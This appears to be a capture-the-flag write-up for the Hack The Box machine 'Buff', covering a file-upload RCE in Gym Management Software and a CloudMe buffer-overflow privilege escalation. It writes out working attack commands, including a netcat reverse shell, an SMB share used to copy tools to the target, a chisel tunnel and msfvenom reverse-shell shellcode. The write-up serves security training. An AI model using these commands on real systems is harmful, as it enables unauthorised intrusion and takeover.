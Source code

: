 # Buff

### Reconnaissance

- port 7680/tcp pando-pub Pando file management software
- port 8080/tcp HTTP

mrb3n's Bro Hut, made using Gym Management Software 1.0

### Exploitation

Vulnerable to Unauthenticated RCE through file upload https://www.exploit-db.com/exploits/48506

Run the exploit to get a webshell on the target

`python2.7 48506.py 'http://10.10.10.198:8080/`

We can upgrade our shell with `nc64.exe` https://github.com/int0x33/nc.exe

Start an SMB server in our uploads directory

`impacket-smbserver -smb2support share -username s -password s`

Connect to it from the webshell

`C:\xampp\htdocs\gym\upload> net use \\10.10.10.10\share /u:s s`

Copy nc64.exe to the target and get a reverse shell

```
C:\xampp\htdocs\gym\upload> copy \\10.10.14.7\share\nc64.exe C:\ProgramData\nc.exe
C:\xampp\htdocs\gym\upload> C:\ProgramData\nc.exe 10.10.10.10 443 -e cmd.exe
```

### Privilege Escalation

Manual enumeration was very important for Buff, using `netstat -ano | findstr TCP | findstr ":0` we 
can see that a process is listening on port 3306 and on port 8888 (only appears intermittently!) locally

Find the executable listening on the port (not reliable, the PID changes very quickly)

`tasklist /v | findstr <PID>`

Port 3306 is mysql for XAmpp likely the user database for the website, but 8888 is CloudMe.exe

Search C:\ for CloudMe

`dir C:\ /s /b | findstr CloudMe"`

We find the CloudMe exe in Shaun's Downloads

![CloudMe](./pictures/cloudme.png)

Searchsploit shows a couple of buffer overflows that match the version

![CloudMe](./pictures/cloudme-searchsploit.png)

As it's locally hosted we need to use chisel to expose the port on our machine, run chisel in server mode on 
the attacking machine

`chisel server -p 8000 --reverse`

Upload chisel to the target with our SMB share and run it in client mode

`.\chisel.exe client 10.10.10.10:8000 R:8888:localhost:8888`

Using the remote exploit 48389.py, replace the shellcode for calc.exe with a generic windows/shell_reverse_tcp
generated with msfvenom and add `import sys` or replace `sys.exc_value` with e

`msfvenom -a x86 -p windows/shell_reverse_tcp LHOST=10.10.10.10 LPORT=443 -b '\x00\x0A\x0D' -f python -v payload `

Start a netcat listener with rlwrap (Important, won't work otherwise!), swap the shellcode and run the 
exploit to get an Administrator shell

### Lessons Learned

- XAmpp uses php + mysql

- Map SMB shares for easier copying of files to the target `net use \\10.10.10.10\share /u:user pass`

- Find local listening network connections with `netstat -ano | findstr TCP | findstr ":0"` the last column 
is the PID

- Find executables running with `tasklist /v`, and with their PID `tasklist /v | findstr <PID>`

- Find file locations with `dir C:\ /s /b | findstr <filename>`

- Use `-v name` with msfvenom shellcode to replace the default variable name

- Use rlwrap to catch shells with netcat to avoid pain and suffering
